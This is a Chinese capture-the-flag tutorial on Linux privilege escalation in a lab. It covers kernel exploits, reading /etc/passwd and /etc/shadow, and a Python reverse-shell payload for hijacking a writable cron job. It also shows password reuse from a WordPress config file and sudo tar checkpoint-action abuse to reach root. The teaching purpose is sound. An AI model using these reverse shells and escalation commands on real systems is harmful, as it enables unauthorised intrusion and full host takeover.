# CTF学习：P14：路径遍历与Web安全提权 🚩

在本节课中，我们将学习在CTF（Capture The Flag）比赛中，如何从低权限用户提升到root权限，即“提权”。这是渗透测试和网络安全竞赛中的关键一步，目标是获得目标主机的最高控制权，从而找到并提交最终的flag值。

## 实验环境概述

为了进行实践，我们需要搭建一个模拟环境：
*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：一个Linux系统，IP地址为 `192.168.253.21`。

我们的初始状态是已经通过某种方式（例如Web漏洞）获得了靶机上一个低权限用户（如 `www-data`）的shell。接下来的目标是通过各种技术手段，将这个shell的权限提升为root。



---

## 提权方法探索



上一节我们介绍了实验环境，本节中我们来看看几种常见的提权思路。在尝试提权前，通常需要先收集系统信息，例如发行版和内核版本。





以下是查看系统信息的常用命令：
*   查看内核版本：`uname -a`
*   查看发行版信息：`cat /etc/*-release` 或 `cat /etc/issue`



### 方法一：内核漏洞提权 🔍



内核漏洞提权是最直接的方法，它利用操作系统内核中的安全缺陷来获取最高权限。但通杀所有系统的内核漏洞极少见，因此需要先收集系统信息，再寻找匹配的漏洞利用代码（Exploit）。

如果找到可用的内核漏洞，通常步骤如下：
1.  将漏洞利用代码上传到靶机。
2.  编译代码：`gcc exploit.c -o exploit`
3.  赋予执行权限：`chmod +x exploit`
4.  执行提权：`./exploit`

执行成功后，当前shell的权限就会变为root。

**实践结果**：在本实验靶机上，使用 `searchsploit` 工具搜索其内核版本（Ubuntu 12.04.5）后，未发现可直接利用的公开漏洞。

### 方法二：明文密码提权 🔑

Linux系统的用户密码哈希值存储在 `/etc/shadow` 文件中，而用户信息在 `/etc/passwd` 中。如果能够读取这两个文件，就可以尝试使用 `john` 或 `hashcat` 等工具破解密码。

相关命令：
*   查看用户信息：`cat /etc/passwd`
*   查看密码哈希（需要root权限）：`cat /etc/shadow`

**实践结果**：在实验靶机上，我们可以读取 `/etc/passwd`，但无法读取受保护的 `/etc/shadow` 文件，因此此方法暂时不可行。

### 方法三：计划任务（Cron Job）提权 ⏰

Linux系统中的计划任务（Cron Job）通常以root权限运行。如果某个由root创建的计划任务脚本（例如Python脚本）权限配置不当，允许低权限用户写入，我们就可以修改该脚本，使其在下次执行时返回一个root shell。

例如，将一个计划任务中的Python脚本替换为以下反向连接代码：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
然后在攻击机上使用 `nc -lvp 监听端口` 等待连接。

**实践结果**：检查靶机的 `/etc/crontab` 文件，未发现配置不当的可写计划任务脚本。

---

## 突破：密码复用与终端模拟

经过以上尝试，我们未能直接提权。这时需要拓宽思路，例如寻找**密码复用**。管理员可能在不同服务（如数据库、Web后台、SSH）中使用相同的密码。

我们在靶机的Web目录 (`/home/zico/wordpress`) 中发现了 `wp-config.php` 文件，其中包含数据库配置信息：
*   数据库用户：`zico`
*   数据库密码：`sWfCsfGspV9H3amQzW8`

我们推测，系统用户 `zico` 的SSH密码可能与此数据库密码相同。使用 `nmap` 扫描确认靶机开放了22端口（SSH服务）后，尝试用此密码登录：
```bash
ssh zico@192.168.253.21
```
输入密码 `sWfCsfGspV9H3amQzW8` 后，成功以 `zico` 用户身份登录。

然而，在获得的shell中直接执行 `sudo su` 可能会失败，因为 `sudo` 要求从真正的终端（TTY）输入密码，而我们的shell可能只是标准输入。这时需要使用Python模拟一个TTY：
```python
python -c ‘import pty; pty.spawn(“/bin/bash”)‘
```
执行后，我们就获得了一个功能更完整的交互式shell。

---

## 最终提权：利用SUDO权限

获得一个有效用户shell后，下一步是检查该用户是否拥有特殊的 `sudo` 权限。执行以下命令查看：
```bash
sudo -l
```
输出显示用户 `zico` 可以以root身份无需密码运行 `vi` 和 `tar` 等命令。这为我们提供了绝佳的提权机会。

以下是利用 `tar` 命令进行提权的一种方法：
1.  创建一个临时文件：`touch exploit`
2.  利用 `tar` 命令的特权执行shell：
    ```bash
    sudo tar -cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec=/bin/bash
    ```
    或者使用更简洁的格式：
    ```bash
    sudo tar -cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec=“/bin/sh -c ‘/bin/bash’”
    ```






执行上述命令后，我们将直接获得一个root权限的shell。

**实践操作**：在实验环境中，我们使用类似原理的 `zip` 命令成功提权（原理与 `tar` 类似，都是利用命令的`--exec`或类似参数执行任意命令）。



---



## 获取Flag与总结 🏁



提权至root后，就可以在系统中自由搜寻flag。通常flag位于 `/root` 目录下。使用以下命令查找并读取：
```bash
cd /root
ls -la
cat flag.txt  # 或类似名称的文件
```
成功读取到flag内容，标志着我们完全控制了目标主机。





**本节课总结**：
在本节课中，我们一起学习了CTF中从低权限到root权限的提权过程。我们探索了多种思路：
1.  **内核漏洞提权**：最直接但依赖特定漏洞。
2.  **密码破解提权**：需要获取密码哈希文件。
3.  **计划任务提权**：利用配置不当的定时任务。
4.  **密码复用**：通过挖掘配置文件发现其他服务的密码，用于登录更高权限用户。
5.  **SUDO权限滥用**：在获得一个有效用户shell后，检查其`sudo`权限，利用`vi`、`tar`、`zip`等命令的特性完成最终提权。



提权过程需要结合信息收集、漏洞利用和灵活的思维。在实战中，往往需要尝试多种方法，并仔细检查系统的每一项配置，才能找到突破口。